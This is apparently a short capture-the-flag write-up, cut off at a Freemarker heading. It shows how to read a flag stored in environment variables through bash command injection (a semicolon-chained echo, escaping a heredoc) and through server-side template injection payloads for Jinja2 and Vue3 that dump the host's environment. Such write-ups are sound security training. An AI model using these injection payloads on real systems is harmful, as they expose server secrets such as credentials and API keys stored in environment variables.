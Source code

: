 ### BASH 

the flag is stored in an environment variable, echo the $flag var will flag these parts. 

- Basic command injection 

```bash
export FLAG=FLAG
id PAYLOAD
```

Just don't forget to have a valid value before the `echo` unless the id command will crash 

```bash
1;
echo $FLAG;
```

- Command injection inside cat <<< 'EOF'

```bash
export FLAG=FLAG
cat <<< 'EOF'
PAYLOAD
EOF
```

A simple payload will work :

```bash
EOF
echo $flag;
```

### Template injection

The flag is stored inside the host environments variables. We have to make a template injection that will read them. 

there is the same code snippets for each template injection :

```html
<h1>Hello PAYLOAD</h1>
```

- Jinja2

Any Jinja simple payload will work 

```jinja2
{{cycler.__init__.__globals__.os.environ}}
```

- Vue3

```vue
{{''.constructor.constructor("return process.env")()}}
```

- Freemarker
